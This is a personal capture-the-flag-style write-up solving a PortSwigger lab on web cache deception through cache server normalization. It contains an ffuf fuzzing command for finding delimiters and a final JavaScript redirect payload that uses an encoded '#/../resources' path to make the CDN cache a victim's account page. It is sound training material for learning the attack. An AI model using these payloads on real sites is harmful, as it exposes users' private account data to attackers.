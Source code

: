 https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization
#### Identify delimiters
- Identify origin server endpoint
- Identify delimiters used by the origin server endpoints
```sh
ffuf -u "https://0a9900050370e7e180c6035c00be0043.web-security-academy.net/my-accountFUZZasd" -w wordlist/delimiters.txt -mc "all" -fc 404 -replay-proxy http://127.0.0.1:8080
```
![[Pasted image 20250405105604.png]]

- Identify cachable endpoints
- Identify delimiters used by the cdn
![[Pasted image 20250405111008.png]]
- The fragment is utilized by the origin server but in the cdn is denied
- The origin server utilizes `/` and also it's normalizing.

#### What we got?
- Origin server normalize before mapping
- Origin server utilizes 2 (or 4 plus the url encoded version) delimiters that the cdn not
#### So?
- if the cdn normalize before mapping we coud **cache arbitrary files**
	`GET /resources/labheader/images/%6cogoAcademy.svg` -> 200
#### Now we know
- this means the cdn server it's normalizing 
- (origin server do normalize too, but will ignore everything after its delimiters)
- origin server utilize # and / as delimiters
- CDN cache file by names
	So we could try:
	GET `/<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_Directory>` 

#### Solution:
we could use hasthag, which is ignored by the browser, however by encoding it we could generate a path confusion and it's ued by the browser
```html
<script>
document.location="https://0a9900050370e7e180c6035c00be0043.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?wcd=true"
</script>
```